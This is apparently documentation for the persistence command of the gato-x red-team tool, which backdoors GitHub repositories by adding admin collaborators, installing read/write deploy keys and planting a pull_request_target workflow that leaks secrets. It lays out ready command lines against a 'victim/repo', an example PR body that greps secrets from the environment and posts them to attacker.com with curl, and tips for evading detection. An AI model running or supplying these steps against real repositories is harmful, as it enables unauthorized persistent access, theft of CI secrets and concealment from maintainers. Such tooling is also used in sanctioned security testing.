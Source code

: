 # Persistence Command

The persistence command enables red teamers and security researchers to deploy advanced persistence techniques in GitHub repositories. This command provides three main attack vectors based on different privilege levels and creates lasting backdoors that can survive various defensive actions.

> **Warning**: These features should only be used with proper authorization and for ethical security research purposes.

## Basic Usage

```bash
gato-x persistence [options]
# or
gato-x persist [options]
# or
gato-x p [options]
```

## Options

### General Options

| Option | Description |
|--------|-------------|
| `--target`, `-t` | Repository to target for persistence in ORG/REPO format (required) |
| `--author-name`, `-a` | Name of the author that all git commits will be made under |
| `--author-email`, `-e` | Email that all git commits will be made under |

### Persistence Technique Options

**Note**: These options are mutually exclusive - you can only select one technique per command execution.

#### Collaborator Invitation (Admin Required)

| Option | Description |
|--------|-------------|
| `--collaborator` | Invite outside collaborators to the repository (requires admin privileges) |
| `--permission` | Permission level for collaborator invitations (pull, triage, push, maintain, admin). Defaults to 'admin' |

#### Deploy Key Creation (Admin Required)

| Option | Description |
|--------|-------------|
| `--deploy-key` | Create a read/write deploy key for the repository (requires admin privileges) |
| `--key-title`, `-k` | Title for the deploy key (default: "Gato-X Deploy Key") |
| `--key-path`, `-p` | Path to save the private key file (required when using --deploy-key) |

#### Malicious Workflow Creation (Write Required)

| Option | Description |
|--------|-------------|
| `--pwn-request` | Create a malicious pull_request_target workflow on a non-default branch (requires write privileges) |
| `--branch-name`, `-b` | Branch name for pwn-request technique (default: "feature/test-workflow") |

## Persistence Techniques

### 1. Collaborator Invitation

**Privilege Level**: Admin required

This technique invites external users as collaborators to maintain access to the repository.

```bash
# Invite single collaborator with default admin permission
gato-x persistence --target org/repo --collaborator username1

# Invite multiple collaborators with push permission
gato-x persistence --target org/repo --collaborator username1 username2 username3 --permission push

# Invite collaborator with specific permission level
gato-x persistence --target org/repo --collaborator username1 --permission maintain
```

**How it works**:
- Sends collaboration invitations to specified GitHub users
- Once accepted, collaborators maintain access even if the original PAT is revoked
- Collaborators inherit repository permissions based on their invitation level

### 2. Deploy Key Creation

**Privilege Level**: Admin required

This technique generates and installs read/write SSH deploy keys with automatic RSA key pair generation.

```bash
# Create deploy key with default title
gato-x persistence --target org/repo --deploy-key --key-path ./private_key.pem

# Create deploy key with custom title
gato-x persistence --target org/repo --deploy-key --key-title "Backup Key" --key-path ./backup_key.pem
```

**How it works**:
- Generates a 2048-bit RSA key pair automatically
- Installs the public key as a read/write deploy key in the repository
- Saves the private key to the specified file path
- Deploy key provides Git access independent of the original PAT

### 3. Malicious Pull Request Target Workflow

**Privilege Level**: Write required

This technique creates a weaponized `pull_request_target` workflow on non-default branches that can be triggered by external contributors.

```bash
# Create malicious workflow on default branch name
gato-x persistence --target org/repo --pwn-request

# Create malicious workflow on custom branch
gato-x persistence --target org/repo --pwn-request --branch-name feature/test
```

**How it works**:
- Creates a new branch with a malicious GitHub Actions workflow
- Uses `pull_request_target` trigger to bypass standard PR security restrictions
- Grants full repository permissions to the workflow
- Exfiltrates all repository secrets via `toJson(secrets)`
- Executes arbitrary code from PR body content
- Can be triggered by any external contributor creating a PR targeting the specified branch

## Example Workflows

### Complete Persistence Setup

```bash
# Step 1: Create deploy key for Git access
gato-x persistence --target victim/repo --deploy-key --key-title "Maintenance Key" --key-path ./maint_key.pem

# Step 2: Invite backup collaborator with admin privileges
gato-x persistence --target victim/repo --collaborator backup-user --permission admin

# Step 3: Create workflow backdoor
gato-x persistence --target victim/repo --pwn-request --branch-name feature/ci-improvements
```

### Triggering Workflow Persistence

After creating a malicious workflow, trigger it by:

1. Creating a pull request targeting the specified branch
2. Including shell commands in the PR body
3. The workflow will execute the commands and exfiltrate secrets

Example PR body:
```bash
# This is a test PR
whoami
env | grep -E "(SECRET|TOKEN|KEY)"
curl -X POST https://attacker.com/exfil -d "$(env)"
```

## Security Considerations

### Persistence Durability

- **Deploy Keys**: Removed when the creating PAT is revoked or user access is removed
- **Collaborators**: Maintain access until manually removed by repository administrators
- **Malicious Workflows**: Persist until the branch is deleted or workflow file is removed

### Detection Evasion

- Use realistic branch names and workflow titles
- Space out persistence techniques over time
- Use legitimate-looking collaborator usernames
- Deploy keys can use descriptive titles that blend with legitimate keys

## Troubleshooting

### Permission Errors

- **Admin techniques**: Verify you have admin access to the target repository
- **Write techniques**: Verify you have write access to the target repository
- **API limits**: Respect GitHub API rate limits

### Common Issues

- **Deploy key conflicts**: GitHub prevents duplicate SSH keys; ensure your generated key is unique
- **Branch conflicts**: Choose branch names that don't conflict with existing branches
- **Workflow validation**: GitHub validates workflow syntax; malformed YAML will be rejected

## Related Commands

- [Attack Command](attack.md) - Execute various attack techniques against repositories
- [Enumerate Command](enumerate.md) - Discover accessible repositories and permissions
- [Search Command](search.md) - Find repositories with potential vulnerabilities